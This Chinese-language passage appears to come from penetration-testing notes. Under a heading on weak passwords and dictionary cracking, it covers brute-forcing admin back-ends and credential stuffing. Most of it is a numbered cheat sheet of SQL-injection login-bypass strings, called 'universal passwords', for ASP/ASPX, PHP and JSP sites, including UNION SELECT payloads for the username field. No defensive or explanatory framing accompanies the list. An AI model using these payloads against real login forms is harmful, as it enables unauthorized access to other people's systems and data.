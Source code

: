 •   jsp 源文件拼接写入

#### **2.5弱口令及字典破解**

后台弱口令爆破撞库（尝试万能密码、特定资产常用密码、弱口令后再撞库）

asp aspx万能密码

 1： "or "a"="a

  2： ')or('a'='a

  3：or 1=1--

  4：'or 1=1--

  5：a'or' 1=1--

  6： "or 1=1--

  7：'or'a'='a

  8： "or"="a'='a

  9：'or''='

  10：'or'='or'

  11: 1 or '1'='1'=1

  12: 1 or '1'='1' or 1=1

  13: 'OR 1=1%00

  14: "or 1=1%00

  15: 'xor

  16: 新型万能登陆密码

  用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin）

  密码 1

  Username=-1%cf' union select 1,1,1 as password,1,1,1 %23

  Password=1

  17..admin' or 'a'='a 密码随便

PHP万能密码

  'or'='or'

 

  'or 1=1/* 字符型 GPC是否开都可以使用

  User: something

  Pass: ' OR '1'='1

jsp 万能密码

  1'or'1'='1
